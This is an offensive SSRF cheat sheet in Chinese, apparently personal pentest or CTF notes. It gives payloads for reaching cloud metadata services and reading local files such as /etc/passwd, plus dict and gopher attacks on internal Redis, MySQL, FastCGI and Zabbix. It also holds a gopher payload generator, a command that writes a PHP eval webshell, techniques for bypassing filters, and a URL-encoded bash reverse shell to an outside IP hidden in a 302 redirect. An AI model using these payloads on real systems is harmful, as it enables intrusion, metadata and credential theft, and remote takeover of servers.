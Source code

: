 ## **SSRF存在场景：**
```
各种输入发消息框
发送网址内容的消息服务端会自动请求(如抖音消息，钉钉消息，知乎发帖，QQ卡片消息等，可用DNSlog验证)
全网页翻译的输入框
在线识图输入图片网址的输入框
在线解析url的输入框
在线获取网站信息的输入框
webhook的接口参数可控
```
^
## **测试有回显的SSRF的探测协议：**
http:
```    
验证，请求一个查看本地ip的网站，查询出口ip    
验证，请求127.0.0.1

对于云服务器还可以访问元数据服务。
元数据服务是一种提供实例相关配置信息的服务，它允许在实例内部访问实例的属性信息，如实例ID、VPC信息、网卡信息等
阿里云
http://100.100.100.200/latest/meta-data/
腾讯云
http://metadata.tencentyun.com/latest/meta-data/
华为云
http://169.254.169.254/
http://169.254.169.254/latest/meta-data/instance-id
```




file:
```
    访问本地文件，file:///etc/hosts 查看本机内网ip
    高权限访问本地文件，file:///proc/net/arp  查看当前的内网的网关为：`172.73.23.1 `，
    而且可以直接发现内网中的另一个 IP 资产为：如`172.73.23.100`
```

伪协议
```
file:/// 从文件系统中获取文件内容，如，file:///etc/passwd
dict:// 字典服务器协议，访问字典资源，如，dict:///ip:6739/info
sftp:// SSH文件传输协议或安全文件传输协议
gopher:// 分布式、文档传递服务，可使用gopherus生成payload
sftp:// SSH文件传输协议或安全文件传输协议
ldap:// 轻量级目录访问协议
tftp:// 简单文件传输协议
```

dict: <https://zhuanlan.zhihu.com/p/115222529>
```
    字典服务器协议，基于查询响应的TCP协议
    dict://172.72.23.23:3306  可探测是否有服务的响应
    dict://172.72.23.27:6379 用dict命令操作redis
                dict://172.72.23.27:6379/set x 2333
                dict://172.72.23.27:6379/info
使用编程的请求函数可以请求，或curl dict://192.168.66.33:6379/info
```
ftp:
```
```
gopher：
```
dict协议的需要一条一条的执行，而gopher协议可以整合执行一条命令就行

并可携带请求包发起get,post请求。dict只能get。

工具gopherus，可以直接计划任务反弹和phpshell。

curl可以走gopher协议
curl gopher://172.2.239.5:9000/_%01%01



手工打gopher流程：
使用脚本生成payload
import urllib.parse

host = "127.0.0.1:80"
content = "uname=admin&passwd=admin"
content_length = len(content)

test =\
"""POST /index.php HTTP/1.1
Host: {}
User-Agent: curl/7.43.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: {}

{}
""".format(host,content_length,content)
# 按照标准，URL只允许一部分ASCII字符，其他字符（如汉字）是不符合标准的，此时就要进行编码。
# 因为我在构造URL的过程中要使用到中文：此时需要用到urllib.parse.quote，此处是为了替换特殊字符\
tmp = urllib.parse.quote(test)
new = tmp.replace("%0A","%0D%0A")
result = urllib.parse.quote(new)
print("gopher://"+host+"/_"+result)

下面是GET:
import urllib
test =\
"""GET /ssrf/get.php HTTP/1.1
Host: 192.168.0.111
"""  
#注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(test)
new = tmp.replace('%0A','%0D%0A')
result = '_'+new
print(result)
```




^
## **测试SSRF:**
```
用bp跑内网段:
172.72.23.$21$:$80$
dict://172.72.23.$21$:$80$

扫内网站点的目录，扫网站指纹

扫到资产，通过SSRF的入口进行内网攻击：
手工使用入口需进行一次URL编码
BP中使用入口需进行双编码

入口的请求是POST请求使用gopher协议携带POST请求包
```

利用ssrf操作内网redis写入计划任务反弹shell：<https://blog.csdn.net/qq_63844103/article/details/126896955>
利用ssrf操作内网：
<https://www.sqlsec.com/2021/05/ssrf.html>
![](.topwrite/assets/image_1735724929100.png)

^
使用gopherus.py对无密码mysql执行sql语句：
```
python2 gopherus.py --exploit mysql
root
select  "<?php eval($_POST[1]);?>"  into outfile "/var/www/html/1.php";
如果在请求体中
记得把_后面那一大段内容再ur编码一次，发送
```
![](.topwrite/assets/image_1733842266820.png)
使用gopherus.py对9000端口的FastCGI执行命令：
```
1、PHP版本要高于5.3.3，才能动态修改PHP.INI配置文件
2、知道题目环境中的一个PHP文件的绝对路径
3、PHP-FPM监听在本机9000端口
4、libcurl版本>=7.45.0
```
记得把_后面那一大段内容再ur编码一次，发送
![](.topwrite/assets/image_1733892617872.png)

对10050的zabbix，命令执行。
```
gopherus --exploit zabbix
```



有ssrf但是有防御绕过：
**dns 重绑定**
https\://xz.aliyun.com/t/7495?time\_\_1311=n4%2BxnD0Dy7GQ3AKeD5DsA3rcC%3D%2FjO4boTD

^
## **SSRF绕过**

跳转型
```
https://33129999.xyz@baidu.com

已知要符合正则
if(preg_match('/^http:\/\/ctf\..*show$/i',$x)){
    echo file_get_contents($url);
}

要符合http://ctf开头，show结尾，则
http://ctf.@127.0.0.1/flag.php?show
```
^
姿势1：

```
http://127.1:80
http://127.1:80/flag.php
http://0/flag.php
http://127.255.255.254/flag.php
```

姿势2：将点分十进制表示的IP转化为十进制IP地址绕过

```
http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254

利用ip地址加密16进制，
http://013451347312
http://0177.0.0.1/ = 127.0.0.1
http://3232235777/

```

姿势3：利用DNS解析
```
http://customer1.app.my.company.127.0.0.1.nip.io = 127.0.0.1

127.0.0.1.nip.io解析后ip就是127.0.0.1
```

<https://mp.weixin.qq.com/s/r6wOTmzcduWi_6v6ujVBwg>

^
#### **302型**
ssrf要求访问的ip是127.0.0.1
自己部署一个php，程序302到内网的服务，并携带参数，这里是命令执行参数。
```
<?php  
header('Location: http://127.0.0.1/flag.php?cmd=%62%61%73%68%20%2d%63%20%22%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%31%36%2e%36%32%2e%33%38%2e%37%31%2f%39%39%39%39%20%30%3e%26%31%22', true, 302);  
exit();
```